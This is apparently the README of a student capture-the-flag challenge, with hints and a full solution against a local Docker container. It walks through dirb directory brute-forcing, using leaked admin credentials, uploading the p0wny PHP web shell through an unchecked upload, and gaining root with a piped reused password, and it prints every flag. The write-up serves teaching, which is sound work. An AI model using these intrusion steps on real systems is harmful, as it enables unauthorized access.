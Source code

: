 - [Challenge Overview](#challenge-overview)
- [Getting started](#getting-started)
- [Hints](#hints)
  - [Flag 1](#flag-1)
  - [Flag 2](#flag-2)
  - [Flag 3](#flag-3)
- [Solution](#solution)
  - [Flag 1](#flag-1-1)
  - [Flag 2](#flag-2-1)
  - [Flag 3](#flag-3-1)
- [More Studies](#more-studies)
  - [Reverse Shell scripts](#reverse-shell-scripts)
  - [Brute force tools](#brute-force-tools)


# Challenge Overview
This CTF Challenge was created as part of the Project Management course. It contains 3 flags and it is all about getting access one step at a time!

This challenge can be difficult for a student, so don't worry if you can't get it done. Also, don't forget to check the hints if you are struggling at some point.

# Getting started
First, download the challenge container.
```
docker pull ghcr.io/dbh201/challenge4:latest
```
Now, launch the container.
```
docker run -p 4443:4443 ghcr.io/dbh201/challenge4:latest
```
Access the website https://localhost:4443 and good luck!

At some point, you will use a reverse shell script in this challenge. If you are not familiar with them, we recommend one as a hint, so don't worry about it.

Also, Kali is not mandatory but recommended, since it has plenty of pre-installed tools that could be useful for this and other challenges. 

# Hints
## Flag 1
Can you get all 3 flags? Let's start by navigating to pages you are not supposed to see.
Wonder what kind of information you can find in there

<details>
    <summary>Hint 1</summary>
    Try navigating to a different directory
</details>

<details>
    <summary>Hint 2</summary>
    Some names are very common across different applications
</details>

<details>
    <summary>Hint 3</summary>
    Alright! Let's bruteforce! Kali has some cool pre-installed Web Crawlers & Directory bruteforces.
</details>

## Flag 2
How much can you do with your new admin account? There must be some way to control the forum.

<details>
    <summary>Hint 1</summary>
    You can definitely do a lot from the admin control panel!
</details>

<details>
    <summary>Hint 2</summary>
    Isn't it cool that you can even upload any file you want?
</details>

<details>
    <summary>Hint 3</summary>
    Some scripts (files) can even give you access to the system, just like magic.
</details>

<details>
    <summary>Hint 4</summary>
    give "p0wny" a try x)
</details>

## Flag 3
Now it's time to escalate...
You need to become root using your p0wny shell, but you can't seem to type in your password...


<details>
    <summary>Hint 1</summary>
    sudo will not work, so let's try switching user.
</details>

<details>
    <summary>Hint 2</summary>
    Can you believe some people reutilize their passwords?! Crazy, right?
</details>

<details>
    <summary>Hint 3</summary>
    It's all about the one-liners these days, isn't it?
</details>


# Solution
## Flag 1
Since we are supposed to look for pages that should be unacessible, we could try a few common names such as "/admin". However, some tools can do this job for us.

Dirb is a fantastic tool for that, and it is already installed in Kali. We can simply run it on our server (make sure you change the IP to match yours).
```bash
┌──(kali㉿kali)-[~]
└─$ dirb https://192.168.0.5:4443

...hidden output

---- Scanning URL: https://192.168.0.5:4443/ ---- 
    ==> DIRECTORY: https://192.168.0.5:4443/adm/
    ==> DIRECTORY: https://192.168.0.5:4443/data/
    ==> DIRECTORY: https://192.168.0.5:4443/images/
    + https://192.168.0.5:4443/index.php (CODE:200|SIZE:17810)   

...hidden output
```
After checking some of the results, we will eventually find the /data directory, that contains some interest files such as "flag1.txt". 

![/data files](/images/IMG1.png?raw=true)

<details>
    <summary>By checking "flag1.txt" content we will find the first flag!</summary>
    <pre><code>
    flag1: Pr0Jmngmnt15c00l

    User: admin
    Password: thispasswordishuge!

    You got the flag! What a place for a password to be, right? :P
    How much can you do with your new admin account? There must be some way to control the forum. 
</code></pre>

</details>


## Flag 2
Now that we have admin credentials, let's see what we can do with that.

First, login with your recently "stolen" credentials! Hey, they shouldn't keep it on a text file!

Exploring some of the buttons on the forum, we will eventually come across "Administration", which will take us to the Admin Control Panel.

![/Administration button location](/images/IMG2.png?raw=true)

More exploring! After checking some of the links on the Admin Control Panel, we will eventually find the "File Administration System", where we can see, download, and - most important - upload some files.

![/Admin Control Panel home page](/images/IMG3.png?raw=true)

Good for us, this forum doesn't even check what files are being uploaded, so we are going to import a script!

Some scripts can grant you access to the system, and although programming one from scratch can be done, we will simply use an already-working solution.

p0wny is a php script that will allow you to get access to the server's terminal, check it out: https://github.com/flozz/p0wny-shell

The only file we will need is "shell.php". Let's upload it and then navigate to it. Don't forget to match your IP address, port, and file name. 

```
https://192.168.0.5:4443/shell.php
```

We now have access to the server's terminal as nginx's user.

![/p0wny's terminal](/images/IMG4.png?raw=true)

Unfortunely, we can't really find the flag here, so we need to navigate on the system. Changing our directory to www-data's home directory, then listing the files there, we will see flag2.txt.

```
cd
ls
cat flag2.txt
```

<details>
    <summary>Let's see what's inside of it</summary>
    <pre><code>
    flag2: BforBodyNotBook-ofKnowledge

    You got the flag! Now it's time to escalate...

    You need to become root using your p0wny shell, but you can't seem to type in your password...
</code></pre>

</details>

## Flag 3
Let's try escalating then! Why not starting with `sudo`?

```
www-data@fc1b13fe1365:/var/www# sudo ls /root
sh: 1: sudo: not found
```

Unfortunetely, `sudo` doesn't seem to work. How about we simply try to switch user with `su`?

```
www-data@fc1b13fe1365:/var/www# su 
Password: su: Authentication failure
```

Although `su` worked, the terminal doesn't prompt us for the password, maybe there is a way to provide that password in a one-liner?

```
www-data@fc1b13fe1365:/var/www# echo "thispasswordishuge!" | su - root
Password:
www-data@fc1b13fe1365:/var/www#
```

So this time we got no `Authentication failure`; lucky us that the owner of this system decided to reuse his password. But if you check the terminal, we are still logged as the same user. Let's see if we can pass any command through `su` to root by adding the `-c` option.

```
www-data@fc1b13fe1365:/var/www# echo "thispasswordishuge!" | su - root -c "ls"
Password: flag3.txt
```

The prompt is definitely a bit weird, but we just listed items on root. Let's also read it with `cat`!

```
www-data@fc1b13fe1365:/var/www# echo "thispasswordishuge!" | su - root -c "ls; cat flag3.txt"
Password: flag3.txt
flag3: plzM477letU5pass

You got the last flag! Wasn't that easy?
```

Hope you enjoyed this challenge as much as we did!


# More Studies
If you want to go deeper into what you practiced in this Challenge, check some recommendations.

## Reverse Shell scripts
A reverse shell script was used in this challenge to gain access to the target machine. Although it was used to simulate an attack, these scripts can be used with no ill intentions.

Besides that, reverse shell scripts can be programmed in different languages, and even customized to your own project. Check some by yourself!

## Brute force tools
Bruteforce is a well known strategy that consists in trying over and over different combinations until you get the right one.

Although we use a directory brute force in this Challenge, there are many other types of brute force tools, the most common being password crackers. But also give it a try to explore other tools that interact with DNS and even biometrics. 

